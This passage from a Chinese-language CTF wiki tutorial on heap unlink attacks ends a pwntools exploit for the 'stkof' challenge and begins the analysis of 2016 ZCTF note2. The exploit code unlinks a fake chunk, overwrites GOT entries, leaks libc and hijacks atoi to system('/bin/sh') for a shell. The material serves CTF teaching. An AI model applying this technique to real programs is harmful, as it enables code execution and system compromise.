```python
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```

## 2016 ZCTF note2
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2016_zctf_note2)

### 分析程序

首先，我們先分析一下程序，可以看出程序的主要功能爲

- 添加note，size限制爲0x80，size會被記錄，note指針會被記錄。
- 展示note內容。
- 編輯note內容，其中包括覆蓋已有的note，在已有的note後面添加內容。
- 釋放note。
